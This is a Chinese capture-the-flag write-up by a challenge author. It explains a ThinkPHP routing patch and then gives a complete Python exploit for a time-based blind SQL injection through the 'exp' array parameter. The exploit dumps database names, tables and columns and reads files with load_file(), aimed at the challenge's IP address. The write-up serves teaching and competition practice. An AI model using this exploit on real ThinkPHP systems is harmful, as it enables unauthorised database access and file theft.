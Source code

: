 有很多师傅在《摆就完事了2.0》中使用如下url访问控制器函数失败：

```
http://129.211.173.64:8086/public/index.php/index/M1sakaM1yuu/index
```

但在《摆就完事了》中这样访问能成功访问，于是觉得题目环境有问题来找我私聊，在此给出统一回复：

> 出题的时候特意定义了一个使用驼峰命名法的控制器M1sakaM1yuu，在thinkPHP官方文档中，访问的正确方式应该是index/m1saka_m1yuu/index，中间使用下划线隔开，但是兼容了index/M1sakaM1yuu/index这样的访问方式，这也是在《摆就完事了》中此访问方式能访问到的原因。但是在《摆就完事了2.0》中我加上了官方补丁取消非预期解法，官方补丁不允许路由中存在大写字母，所以会返回404。希望大家以后在开发和代码审计时能注意到这个细节。

这个漏洞很多师傅应该都复现过，复现过程中会将config.php做如下设置：
![img](https://gitee.com/leonsec/images/raw/master/upload_736aa75cfcf692d8288324e989a5f4f9-20211129203446434.png)

这样能够看到回显，更加直观也方便调试。但是实战环境中这种理想环境极少出现，大部分情况下我们是得不到回显的，所以盲注更加贴合实战，这也是出题时考虑到的因素。

定义了一个waf函数，主要是ban了mysql可以写文件的函数，防止rce。要想实现mysql读取文件，需要给mysql很高的权限，并且知道所在文件的绝对路径。给出exp：

```python
# '''
# Author: m1saka@x1ct34m
# blog: www.m1saka.love
# '''
import requests
import time
flag = ''

for i in range(1,100):
    for j in r'{}0123456789abcdefghijklmnopqrlstuv\/wxyz-_,<>\?.':
        #开始计时
        before_time = time.time()
        #payload     = 'substr((select(database())),{},1)="{}"'.format(i,j)
        #payload     = 'substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{},1)="{}"'.format(i,j)
        #payload     = 'substr((select(group_concat(column_name))from(information_schema.columns)where(table_name="m1saka")),{},1)="{}"'.format(i,j)
        payload     = 'substr((select(load_file("/var/www/html/ffllaagg.php"))),{},1)="{}"'.format(i,j)
        url         = 'http://129.211.173.64:8086/public/index.php/index/m1saka_m1yuu/index?username[0]=exp&username[1]=sleep(if((1^({})),0,3))&username[2]=1'.format(payload)
        #print(url)
        r           = requests.get(url)
        #print(r.text)
        #返回时间
        after_time  = time.time()
        offset      = after_time - before_time
        if offset > 2.8:
            flag    += j
            print(flag)
            break
```

在获取字段名的时候得知flag的绝对路径，直接load_file()函数加载就行。
